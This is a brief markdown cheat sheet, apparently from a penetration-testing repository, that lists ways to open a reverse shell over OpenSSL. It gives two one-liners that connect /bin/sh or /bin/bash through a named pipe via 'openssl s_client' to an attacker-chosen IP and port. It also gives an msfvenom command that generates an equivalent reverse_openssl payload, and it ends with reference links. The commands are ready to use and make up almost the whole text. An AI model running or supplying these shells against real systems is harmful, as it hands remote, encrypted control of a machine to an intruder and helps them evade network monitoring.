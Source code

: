 # OpenSSL

## 01 - One-liners

```
$ mkfifo /tmp/f; /bin/sh -i < /tmp/f 2>&1 | openssl s_client -quiet -connect <IP>:<PORT> > /tmp/f; rm /tmp/f

$ mkfifo /tmp/f; /bin/bash -i < /tmp/f 2>&1 | openssl s_client -quiet -connect <IP>:<PORT> > /tmp/f; rm /tmp/f
```

## 02 - Generate via `msfvenom`

```
$ msfvenom -p cmd/unix/reverse_openssl handlersslcert=[/path/to/file.pem] sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>
```

---
## References

- [Hacktricks: Shells Linux](https://book.hacktricks.xyz/shells/shells/linux)

- [D4Vinci: One-Lin3r](https://github.com/D4Vinci/One-Lin3r)

- [Rio Asmara Suryadi: OpenSSL for Reverse Shell](https://rioasmara.com/2020/06/22/openssl-for-reverse-shell/)

- [Sandfly Security: Detecting and Investigating OpenSSL Backdoors on Linux](https://www.sandflysecurity.com/blog/detecting-and-investigating-openssl-backdoors-on-linux/)